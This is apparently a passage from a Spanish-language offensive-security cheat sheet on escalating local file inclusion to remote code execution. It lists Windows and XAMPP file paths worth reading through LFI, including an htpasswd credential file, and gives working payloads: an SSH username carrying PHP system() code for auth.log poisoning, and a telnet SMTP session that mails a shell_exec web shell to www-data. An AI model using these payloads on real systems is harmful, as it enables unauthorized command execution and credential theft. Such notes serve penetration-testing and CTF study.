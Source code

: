 ```
C:\Windows\System32\winevt\Logs\Security.evtx
C:\Windows\System32\winevt\Logs\System.evtx
C:\Windows\win.ini
C:\xampp\apache\conf\extra\httpd-xampp.conf
C:\xampp\apache\conf\httpd.conf
C:\xampp\apache\logs\access.log
C:\xampp\apache\logs\error.log
C:\xampp\FileZillaFTP\FileZilla Server.xml
C:\xampp\MercuryMail\MERCURY.INI
C:\xampp\mysql\bin\my.ini
C:\xampp\php\php.ini
C:\xampp\security\webdav.htpasswd
C:\xampp\sendmail\sendmail.ini
C:\xampp\tomcat\conf\server.xml

```


## RCE EN LFI

### [Log Poisoning]
Consiste en verificar si las rutas /var/log/auth.log y /var/log/apache2/access.log son visibles desde el LFI.

En caso de serlo para la ruta /var/log/auth.log, podemos llevar a cabo técnicas de autenticación que nos permitan obtener ejecución de comandos en remoto. Esta ruta almacena las autenticaciones establecidas sobre el sistema, entre ellas además de las normales de sesión, las que van por SSH.

Esto en otras palabras se traduce en que por cada intento fallido de conexión por SSH hacia el sistema, se generará un reporte visible en el recurso /var/log/auth.log. La idea en este punto es aprovechar la visualización del recurso para forzar la autenticación de un usuario no convencional, donde incrustramos un código PHP que nos permite posteriormente desde el LFI ejecutar comandos sobre el sistema.

Ejemplo:

`ssh "<?php system('whoami'); ?>"@domain.htb`

### [Mail PHP Execution]

Consiste en aprovechar la vulnerabilidad LFI para tras visualizar los usuarios en el recurso '/etc/passwd', poder visualizar sus correspondientes mails en '/var/mail/usuario

```
telnet 192.168.1.X 25

HELO localhost

MAIL FROM:<root>

RCPT TO:<www-data>

DATA

<?php

echo shell_exec($_REQUEST['cmd']);
?>
```
